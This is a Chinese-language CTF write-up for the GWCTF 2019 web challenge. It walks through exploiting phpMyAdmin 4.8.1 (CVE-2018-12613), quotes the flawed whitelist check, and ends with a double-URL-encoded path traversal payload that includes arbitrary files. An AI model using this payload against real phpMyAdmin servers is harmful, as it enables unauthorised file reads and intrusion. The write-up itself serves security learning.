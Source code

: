 # GWCTF 2019

## Web

### 我有一个数据库

#### **目录搜索**

根据 dirsearch 可以得到 `/robots.txt、/phpmyadmin/index.php、/phpinfo.php、/phpmyadmin/ChangeLog、/phpmyadmin/README、/phpmyadmin/doc/html/index.html、/javascript、/index.html` 均为可访问文件。

#### **phpmyadmin 漏洞**

登录进入 phpmyadmin 可以发现可以直接进入，登录的账号为 test ，版本为 4.8.1，根据百度查找可以发现该版本存在漏洞（CVE-2018-12613），该漏洞没有严格的进行过滤。

#### **漏洞内容**

```php
$target_blacklist = array (
    'import.php', 'export.php'
);

// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target']) // target 不能为空
    && is_string($_REQUEST['target']) // target 必须为字符串
    && ! preg_match('/^index/', $_REQUEST['target']) // target 不能包含 index
    && ! in_array($_REQUEST['target'], $target_blacklist) // target 不能在黑名单内
    && Core::checkPageValidity($_REQUEST['target']) // checkPageValidity 为真
) {
    include $_REQUEST['target'];
    exit;
}
```

checkPageValidity 函数内容如下

```php
public static function checkPageValidity(&$page, array $whitelist = [])
{
    if (empty($whitelist)) {
        $whitelist = self::$goto_whitelist;
    }
    if (! isset($page) || !is_string($page)) {
        return false;
    }

    if (in_array($page, $whitelist)) {
        return true;
    }

    $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }

    $_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }

    return false;
}
```

$goto\_whitelist 变量内容如下

```php
public static $goto_whitelist = array(
'db_datadict.php',
'db_sql.php',
'db_events.php',
'db_export.php',
'db_importdocsql.php',
'db_multi_table_query.php',
'db_structure.php',
'db_import.php',
'db_operations.php',
'db_search.php',
'db_routines.php',
'export.php',
'import.php',
'index.php',
'pdf_pages.php',
'pdf_schema.php',
'server_binlog.php',
'server_collations.php',
'server_databases.php',
'server_engines.php',
'server_export.php',
'server_import.php',
'server_privileges.php',
'server_sql.php',
'server_status.php',
'server_status_advisor.php',
'server_status_monitor.php',
'server_status_queries.php',
'server_status_variables.php',
'server_variables.php',
'sql.php',
'tbl_addfield.php',
'tbl_change.php',
'tbl_create.php',
'tbl_import.php',
'tbl_indexes.php',
'tbl_sql.php',
'tbl_export.php',
'tbl_operations.php',
'tbl_structure.php',
'tbl_relation.php',
'tbl_replace.php',
'tbl_row_action.php',
'tbl_select.php',
'tbl_zoom_select.php',
'transformation_overview.php',
'transformation_wrapper.php',
'user_password.php',
);
```

#### **信息获取**

获取数据库所在路径

```sql
show global variables like "%datadir%";
```

#### **获取 Flag**

因为 checkPageValidity() 函数进行了一次 urldecode() 函数进行转义，但是并没有多次进行过滤，因此可以它通过两次对 ? 进行编码为 %253f 后即可进行绕过

构造 payload `target=db_sql.php%253f/../../../../../../flag` 即可获得 flag
